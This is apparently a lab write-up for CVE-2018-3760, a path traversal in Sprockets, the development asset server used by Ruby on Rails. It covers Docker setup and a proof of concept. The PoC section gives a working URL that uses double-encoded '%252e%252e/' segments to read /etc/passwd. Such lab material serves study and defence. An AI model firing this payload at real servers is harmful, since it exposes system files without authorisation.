


Ruby On Rails Path Traversal Vulnerability（CVE-2018-3760）¶
Ruby On Rails is a well-known Ruby Web development framework, which uses Sprockets as a static file server in development environment. Sprockets is a Ruby library that compiles and distributes static resource files.
There is a path traversal vulnerability caused by secondary decoding in Sprockets 3.7.1 and lower versions. An attacker can use %252e%252e/ to access the root directory and read or execute any file on the target server.
Reference links：
- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
- https://seclists.org/oss-sec/2018/q2/210
- https://xz.aliyun.com/t/2542
Environment setup¶
Enter the following command：
docker compose up -d
Visit http://your-ip:3000 and you'll see the welcome page.
POC¶
It will give an error by visiting http://your-ip:3000/assets/file:%2f%2f/etc/passwd directly, as the file /etc/passwd is not in the allowed directory.

We can get a list of allowed directories by the error page. Just select one of them, such as /usr/src/blog/app/assets/images, then use %252e%252e/ to jump to the parent directory, and finally read the file /etc/passwd:
http://your-ip:3000/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
